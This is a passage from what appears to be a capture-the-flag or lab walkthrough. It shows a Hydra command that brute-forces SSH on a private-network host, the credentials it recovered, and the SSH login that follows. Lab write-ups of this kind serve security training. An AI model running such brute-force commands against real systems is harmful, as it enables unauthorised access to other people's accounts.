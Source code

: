 
## 8. Brute Force SSH Login

Using Hydra to brute-force SSH:

```bash
hydra -V -L user.txt -P notes.txt 192.168.1.60 ssh
```

**Result:**
- Username: `l`
- Password: `death4me`

![Hydra](img/img16.jpg)
![Hydra Result](img/img17.jpg)

---

## 9. SSH Login as User `l`

Logging in:

```bash
ssh l@192.168.1.60
```

